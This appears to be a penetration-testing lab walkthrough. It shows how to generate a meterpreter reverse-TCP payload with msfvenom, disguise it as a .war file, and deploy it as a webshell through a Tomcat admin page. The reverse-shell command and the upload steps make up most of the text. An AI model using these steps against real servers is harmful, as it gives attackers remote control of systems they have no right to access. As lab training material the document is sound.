




build webshell with msfvenom
Build webshell
payload
msfvenom -p linux/x64/meterpreter_reverse_tcp lhost=172.16.64.10 lport=9080 -f elf -o meterpreterFile
-p, --payload → Payload to use, must be the same of the on used on the attacker machine
-f, --format → Output format
-o, --out → Save the payload in a output file
rename the webshell payload to a .war file
now we have to rename the payload, by appending a war extension at the end. The structure of the file will not change will allow us to upload it to the tomcat server; as it will think it is a deployable .war archive
mv meterpreterFile meterpreterFile.war
deploy the webshell(payload) created in the admin page
after deployed we can find it here:
but start it give us an error like this:
because meterpreterFile.war is not a real .war file, to use this webshell we have to rename it to its original form, simply meterpreterFile, without .war
cannot "cd" in a non-interactive webshell. In the lab manual we use only "ls" for that reason.
{kind=link}
{kind=link}
{kind=link}